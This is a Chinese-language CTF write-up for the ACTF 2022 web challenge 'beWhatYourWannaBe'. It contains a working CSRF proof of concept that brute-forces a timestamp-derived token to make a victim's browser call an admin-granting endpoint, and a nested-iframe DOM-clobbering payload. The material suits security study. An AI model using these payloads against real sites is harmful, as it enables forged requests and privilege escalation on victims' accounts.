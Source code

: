 ## 题目介绍

[附件](/CTF_ATTACHMENTS/2022/ACTF-beWhatYourWannaBe.zip)

```
“doctor, actor, lawyer or a singer
why not president, be a dreamer
You can be just the one you wanna be.”

http://124.71.180.254:10022
It is recommended to test locally first.
Chrome’s processes will be cleaned up every 2 minutes to avoid take up too much memory.
Attachment is updated[2022-06-26 2:10 UTC+8] for stable exploitation.
```

考点：
- CSRF

## Writeup

因为后端有CSRFtoen的验证，并且是用时间戳算token实现的，所以先CSRF爆破让注册的用户有能访问第一段flag

```
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
    <form name=form1 action="http://localhost:8000/beAdmin" method="POST" target="_blank">
        <input type="hidden" name="username" value="rdd" />
        <input type="hidden" name="csrftoken" value="111" />
      <input type="submit" value="Submit request" />
    </form>
    
    <script>
function hash(string) {
    const utf8 = new TextEncoder().encode(string);
    return crypto.subtle.digest('SHA-256', utf8).then((hashBuffer) => {
        const hashArray = Array.from(new Uint8Array(hashBuffer));
        const hashHex = hashArray.map((bytes) => bytes.toString(16).padStart(2, '0')).join('');
        return hashHex;
    });
}
var data = Date.now()
for (var i = 0; i < 100; i++) {
    var tmp = Math.sin(Math.floor((data + 1) / 1000)).toString()
    hash(tmp).then((hex) => {
        console.log(hex, (data + i))
        document.form1.csrftoken.value = hex
        document.form1.submit()

    });

}
    </script>
  </body>
</html>
```

flag2，需要满足`fff.lll.aaa.ggg.value === "this_is_what_i_want"`

实现方法有很多种，只需要满足最后有 `<input name="ggg" type="submit" value="this_is_what_i_want"/>`就行了

poc.html
```
<html>
<iframe name=fff src="fff.html">
</html>
fff.html
<html>
<iframe name=lll src="lll.html">
</html>
lll.html
<html>
     <form id=aaa>
        <input name="ggg" type="submit" value="this_is_what_i_want"/>
    </form>
</html>
```

![2022-07-02-22-37-23.png](/IMAGES/2022-07-02-22-37-23.png)